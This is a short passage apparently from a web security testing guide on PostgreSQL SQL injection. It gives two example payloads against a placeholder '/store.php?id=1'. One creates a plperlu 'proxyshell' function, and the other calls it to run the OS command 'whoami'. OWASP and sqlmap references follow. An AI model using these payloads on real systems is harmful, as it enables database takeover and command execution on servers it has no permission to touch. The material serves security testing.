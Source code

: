 ###### Example

-   Create a proxy shell function: `/store.php?id=1; CREATE FUNCTION proxyshell(text) RETURNS text AS 'open(FD,"$_[0] |");return join("",<FD>);' LANGUAGE plperlu;`
-   Run an OS Command: `/store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1;--`

## References

-   [Testing for SQL Injection](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)
-   [SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
-   [PostgreSQL Official Documentation](https://www.postgresql.org/docs/)
-   [Bernardo Damele and Daniele Bellucci: sqlmap, a blind SQL injection tool](https://sqlmap.org/)

---

# Test Documentation

Document here every action performed for this test.